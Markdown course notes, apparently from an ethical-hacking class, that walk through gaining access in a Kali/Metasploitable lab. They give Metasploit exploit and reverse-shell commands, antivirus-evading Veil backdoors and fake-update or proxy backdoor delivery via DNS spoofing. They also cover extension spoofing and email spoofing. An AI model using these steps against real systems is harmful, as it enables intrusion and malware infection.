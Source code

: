 # Gaining Access

Three main approaches:

1. [Server Side](#server-side)

2. [Client Side](#client-side)

3. [Social Engineering](#social-engineering)

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell
#Navigate to /opt/BDFProxy, and configure bdfproxy.cfg according to target

cd /opt/BDFProxy/

./bdf_proxy.py

#Now, become the MITM
bettercap -iface eth0 -caplet spoof.cap

#Apply a rule for packets
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

#run resource file given by BDFProxy
msfconsole --resource /opt/BDFProxy/bdfproxy_msf_resource.rc

#Now, we can wait for target computer to download something like an .exe file, so that it can get backdoored during the process
```

## Social Engineering

---

* These attacks rely on gathering info about the user, and building a strategy based on the info gathered.

* Maltego can be used as an information gathering tool. Based on the info gathered, strategies can be built for the target.

* We can combine backdoor with any file by using a [download-and-execute payload](..\autoit-download-and-execute.txt). As this sample script is written in AutoIt, we have to change extension from .txt to .au3. Then, it can be compiled into a .exe file, and moved to the directory /var/www/html/. At the same time, we have to listen for incoming connections using Metasploit.

* Using a right-to-left override character, we can spoof the file extension (from .exe to .jpg, for example).

* Email spoofing can be done by using a SMTP server, or using PHP mail functions coupled with a web hosting plan.

---
